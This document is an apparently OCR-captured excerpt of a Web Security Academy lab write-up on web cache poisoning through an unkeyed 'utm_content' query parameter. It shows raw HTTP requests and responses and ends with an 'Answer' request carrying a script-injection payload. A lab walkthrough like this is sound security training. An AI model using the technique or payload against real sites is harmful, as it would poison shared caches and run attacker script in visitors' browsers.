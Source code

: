 ```
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Language: en-US,en;q=0.9
Connection: close
```

### Web cache poisoning via an unkeyed query parameter

Use Param Miner's "Guess GET parameters"

```
GET /?asd=asd HTTP/1.1
Host: 0af2003b035fb3dcc0b31ddf002000d5.web-security-academy.net
```

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=uVBpELI77LgS5WdIkh0Lo58WvVzvlfNM; Secure; HttpOnly; SameSite=None
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Connection: close
Content-Length: 8285
```

```
GET /?utm_content=123123123123&asd=qwe HTTP/1.1
Host: 0af2003b035fb3dcc0b31ddf002000d5.web-security-academy.net
```

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=Naq7cahesrhqRlg7wJnxuAqhIfOkIGzb; Secure; HttpOnly; SameSite=None
Set-Cookie: utm_content=123123123123; Secure; HttpOnly
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Connection: close
Content-Length: 8310
```

```
GET /?utm_content='/> HTTP/1.1
Host: 0af2003b035fb3dcc0b31ddf002000d5.web-security-academy.net
```

```
<link rel="canonical" href='//0af2003b035fb3dcc0b31ddf002000d5.web-security-academy.net/?utm_content='/>'/>
```

Answer:

```
GET /?utm_content='/><script>alert(1)</script> HTTP/1.1
Host: 0af2003b035fb3dcc0b31ddf002000d5.web-security-academy.net
```
